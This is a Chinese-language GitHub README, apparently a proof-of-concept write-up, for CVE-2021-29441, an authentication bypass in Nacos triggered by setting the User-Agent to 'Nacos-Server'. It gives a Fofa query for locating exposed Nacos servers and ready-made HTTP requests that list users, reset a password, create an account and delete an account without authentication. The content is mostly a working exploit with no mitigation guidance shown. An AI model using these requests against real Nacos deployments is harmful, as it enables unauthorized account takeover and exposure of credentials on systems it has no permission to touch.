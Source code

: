 # CVE-2021-29441

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Nacos未授权访问漏洞



# 0X01 漏洞描述

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息

# 0X02 影响范围

```cpp
Nacos版本<=Nacos 2.0.0-ALPHA.1
```

# 0X03 Fofa语法

```cpp
app="nacos"
```

# 0X04 环境搭建

![Untitled](image/Untitled.png)

**默认账号密码：** nacos/nacos

![Untitled](image/Untitled%201.png)

# 0X05 漏洞复现

## 验证是否存在漏洞

```cpp
//GET请求
http://192.168.100.141:8848/nacos/v1/auth/users?pageNo=1&pageSize=1

User-Agent: Nacos-Server
```

![Untitled](image/Untitled%202.png)

## 修改密码

```cpp
//PUT请求
http://192.168.100.141:8848/nacos/v1/auth/users?username=test11&newPassword=123456

User-Agent: Nacos-Server
```

![Untitled](image/Untitled%203.png)

## 创建用户

```cpp
//POST请求
http://192.168.100.141:8848/nacos/v1/auth/users?username=test10&password=test10

User-Agent: Nacos-Server
```

![Untitled](image/Untitled%204.png)

## 删除用户

```cpp
//DELETE请求 
http://192.168.100.141:8848/nacos/v1/auth/users?username=test10

User-Agent: Nacos-Server
```
